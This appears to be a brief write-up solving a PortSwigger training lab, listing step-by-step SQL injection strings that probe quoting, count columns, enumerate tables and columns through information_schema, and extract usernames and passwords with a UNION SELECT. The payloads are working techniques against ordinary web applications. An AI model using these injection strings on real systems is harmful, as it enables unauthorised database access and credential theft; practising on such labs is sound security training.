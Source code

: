 # SQL injection attack, listing the database contents on non-Oracle databases
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

Step - 1
--------
'
-
Error
Single Quotes

Step - 2
--------
'--
---
No MySQL

Step - 3
--------
' ORDER BY 3--
--------------
Error
2 Column

Step - 4
--------
' UNION SELECT 'a','a'--
------------------------
2 String Column

Step - 5
--------
' UNION SELECT 'a',table_name FROM information_schema.tables--
--------------------------------------------------------------
Table Name: users_losije

Step - 6
--------
' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--
------------------------------------------------------------------------------------------------
Column Name: username_nlazuv and password_xcildc

Step - 7
--------
' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--
